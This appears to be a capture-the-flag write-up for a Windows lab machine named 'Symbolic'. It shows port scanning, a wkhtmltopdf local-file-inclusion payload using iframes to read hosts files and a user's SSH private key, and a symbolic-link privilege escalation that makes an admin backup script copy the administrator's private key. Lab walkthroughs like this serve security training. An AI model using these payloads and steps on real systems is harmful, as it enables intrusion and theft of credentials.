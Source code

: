 # Symbolic

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.202.177
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 20:55 +08
Nmap scan report for 192.168.202.177
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

SSH was open on this machine, which was unusual for Windows.&#x20;

### WebPage to PDF --> LFI

Port 80 was rather simple:

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

I created a HTML file with one word within it, then hosted it on my HTTP server and submitted the URL with my IP. This returned a PDF:

<figure><img src="../../../.gitbook/assets/image (11) (4).png" alt=""><figcaption></figcaption></figure>

I downloaded the PDF and used `exiftool` on it to enumerate any version:

```
$ exiftool ac354a9d4d469ef971709095540b2f42.pdf 
ExifTool Version Number         : 12.57
File Name                       : ac354a9d4d469ef971709095540b2f42.pdf
Directory                       : .
File Size                       : 6.6 kB
File Modification Date/Time     : 2023:07:06 21:03:17+08:00
File Access Date/Time           : 2023:07:06 21:03:17+08:00
File Inode Change Date/Time     : 2023:07:06 21:03:25+08:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Title                           : 
Creator                         : wkhtmltopdf 0.12.3
Producer                        : Qt 4.8.7
Create Date                     : 2023:07:06 06:02:52-07:00
Page Count                      : 1
```

Googling exploits for this version show that LFI is a possibility:

{% embed url="https://www.virtuesecurity.com/kb/wkhtmltopdf-file-inclusion-vulnerability-2/" %}

{% embed url="https://www.jomar.fr/posts/2021/ssrf_through_pdf_generation/" %}

The exploit here is the content of the HTML file being used. Here's my PoC:

```html
<iframe src="C:/Windows/system32/drivers/etc/hosts">
```

When we host this HTML file on a HTTP server and use the website's converting feature, this is what we are returned:

<figure><img src="../../../.gitbook/assets/image (13) (7).png" alt=""><figcaption></figcaption></figure>

This confirms that LFI works. We can edit the PoC to show all the content:

```html
<iframe src="C:/Windows/system32/drivers/etc/hosts" height=1000 width=1000 />
```

<figure><img src="../../../.gitbook/assets/image (19) (2).png" alt=""><figcaption></figcaption></figure>

Now, we just need to find the correct file to read. The website gives us a username `p4yl0ad`, and SSH is open, so let's try to read the user's private key.

```markup
<iframe src="C:/users/p4yl0ad/.ssh/id_rsa" height=1000 width=1000 />
```

<figure><img src="../../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

Using this, we can `ssh` in as the user:

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Backup Script --> Symbolic Link Write

There was a `C:\backup` directory with a script in it:

```
p4yl0ad@SYMBOLIC C:\backup>dir 
 Volume in drive C has no label.
 Volume Serial Number is 5C30-DCD7

 Directory of C:\backup

03/10/2023  11:59 AM    <DIR>          .
03/10/2023  11:59 AM    <DIR>          ..
10/11/2021  09:11 PM               207 backup.ps1
07/06/2023  06:09 AM    <DIR>          logs

p4yl0ad@SYMBOLIC C:\backup>type backup.ps1 
$log = "C:\xampp\htdocs\logs\request.log" 
$backup = "C:\backup\logs"

while($true) {
        # Grabbing Backup
        copy $log $backup\$(get-date -f MM-dd-yyyy_HH_mm_s)
        Start-Sleep -s 60
}
```

There was a backup directory being updated, and this script was running once every minute or so. The script is also owned by the administrator:

```
p4yl0ad@SYMBOLIC C:\backup>icacls backup.ps1
backup.ps1 SYMBOLIC\Administrator:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Administrators:(I)(F)
           BUILTIN\Users:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

We also have write access over `C:\xampp\htdocs\logs\request.log`, meaning that we can create a symbolic link to make the script read and copy any file we want. Again, since SSH is open, we can attempt to get the admin's private key.&#x20;

First we need to delete the `logs` directory:

```
p4yl0ad@SYMBOLIC C:\xampp\htdocs>del logs 
C:\xampp\htdocs\logs\*, Are you sure (Y/N)? y
```

We cannot create a symbolic link to the private SSH key using conventional means because we aren't given access:

```
p4yl0ad@SYMBOLIC C:\backup>powershell -c New-item -ItemType SymbolicLink -Path "C:/xampp/htdocs/logs/request.log" -T
arget "C:/users/administrator/.ssh/id_rsa"
New-item : Access is denied
At line:1 char:1
+ New-item -ItemType SymbolicLink -Path C:/xampp/htdocs/logs/request.lo ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\users\administrator\.ssh\id_rsa:String) [New-Item], Unauthoriz  
   edAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.NewItemCommand        
 
New-item : Cannot find path 'C:\users\administrator\.ssh\id_rsa' because it does not exist.
At line:1 char:1
+ New-item -ItemType SymbolicLink -Path C:/xampp/htdocs/logs/request.lo ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (C:\users\administrator\.ssh\id_rsa:String) [New-Item], ItemNotFound  
   Exception
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.NewItemCommand
```

We can create a junction however:

```
p4yl0ad@SYMBOLIC C:\xampp\htdocs\logs>dir 
 Volume in drive C has no label. 
 Volume Serial Number is 5C30-DCD7

 Directory of C:\xampp\htdocs\logs

07/06/2023  06:22 AM    <DIR>          .
07/06/2023  06:22 AM    <DIR>          ..
07/06/2023  06:22 AM    <JUNCTION>     request.log [C:\Users\Administrator\.ssh\id_rsa]
```

But the above won't work. What worked was `CreateSymlink.exe` from this repo:

{% embed url="https://github.com/googleprojectzero/symboliclink-testing-tools" %}

We can download and upload that binary. Then, we can run it:

```
p4yl0ad@SYMBOLIC C:\Windows\Tasks>.\CreateSymlink.exe "C:\xampp\htdocs\logs\request.log" "C:\users\administrator\.ss
h\id_rsa"
Opened Link \RPC Control\request.log -> \??\C:\users\administrator\.ssh\id_rsa: 00000174 
Press ENTER to exit and delete the symlink
```

I waited for a while and then deleted the symlink. When we check the `C:\backup\logs` directory's newest file that is significantly larger than the rest, we find an SSH key:

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Then, use this key to `ssh` in as the administrator:

<figure><img src="../../../.gitbook/assets/image (2) (7).png" alt=""><figcaption></figcaption></figure>

